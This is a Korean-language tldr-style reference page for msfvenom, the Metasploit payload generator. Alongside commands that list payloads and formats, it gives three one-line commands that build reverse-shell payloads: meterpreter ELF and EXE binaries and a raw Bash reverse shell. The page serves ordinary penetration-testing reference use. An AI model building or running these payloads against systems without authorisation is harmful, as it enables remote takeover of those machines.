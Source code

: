 ```yaml
---
layout: page
title: common/msfvenom (한국어)
description: "Metasploit의 페이로드를 수동으로 생성."
content_hash: d7b5d1ca9f4839daf784edaa57bedc77141ea02e
last_modified_at: 2024-11-08
related_topics:
  - title: English version
    url: /en/common/msfvenom.html
    icon: bi bi-globe
tldri18n_status: 2
---
```

# msfvenom

Metasploit의 페이로드를 수동으로 생성.
더 많은 정보: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- 페이로드 목록 표시:

`msfvenom -l payloads`

- 형식 목록 표시:

`msfvenom -l formats`

- 페이로드 옵션 표시:

`msfvenom -p `<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">페이로드</span>` --list-options`

- 역방향 TCP 핸들러로 ELF 바이너리 생성:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">로컬_IP</span>` LPORT=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">로컬_포트</span>` -f elf -o `<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">경로/대상/바이너리</span>

- 역방향 TCP 핸들러로 EXE 바이너리 생성:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">로컬_IP</span>` LPORT=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">로컬_포트</span>` -f exe -o `<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">경로/대상/바이너리.exe</span>

- 역방향 TCP 핸들러로 원시 Bash 생성:

`msfvenom -p cmd/unix/reverse_bash LHOST=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">로컬_IP</span>` LPORT=`<span class="tldr-var badge badge-pill bg-dark-lm bg-white-dm text-white-lm text-dark-dm font-weight-bold">로컬_포트</span>` -f raw`
